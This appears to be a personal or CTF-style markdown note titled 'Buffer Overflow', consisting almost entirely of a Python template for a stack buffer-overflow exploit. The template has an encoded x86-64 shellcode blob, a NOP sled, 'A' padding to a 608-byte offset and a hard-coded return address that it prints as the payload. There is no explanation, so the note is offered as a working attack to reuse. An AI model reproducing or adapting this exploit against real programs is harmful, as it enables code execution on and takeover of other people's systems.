 # Buffer Overflow 

## Base python script

``

from struct import pack

nop = '\x90'

buf =  b""
buf += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += b"\xef\xff\xff\xff\x48\xbb\x7e\xe4\x73\xe1\x46\x73\xf8"
buf += b"\xde\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += b"\x14\xcd\x2b\x78\x2c\x71\xa7\xb4\x7f\xba\x7c\xe4\x0e"
buf += b"\xe4\xb0\x67\x7c\xe4\x50\xc8\x4c\x7b\x07\x2a\x2f\xac"
buf += b"\xfa\x07\x2c\x63\xa2\xb4\x54\xbc\x7c\xe4\x2c\x70\xa6"
buf += b"\x96\x81\x2a\x19\xc0\x1e\x7c\xfd\xab\x88\x8e\x48\xb9"
buf += b"\xdf\x3b\x43\xf1\x1c\x8d\x1d\xce\x35\x1b\xf8\x8d\x36"
buf += b"\x6d\x94\xb3\x11\x3b\x71\x38\x71\xe1\x73\xe1\x46\x73"
buf += b"\xf8\xde"

offset = 608
jumpadd = 0x7fffffffe2fc
len_payload = offset + 8
nop_payload = 300* nop
len_shell = len(buf)
len_nop = len(nop_payload)
padding = 'A' * (len_payload - len_shell - len_nop)
payload = nop_payload + buf + padding + pack("<Q", jumpadd)

print(payload)

``

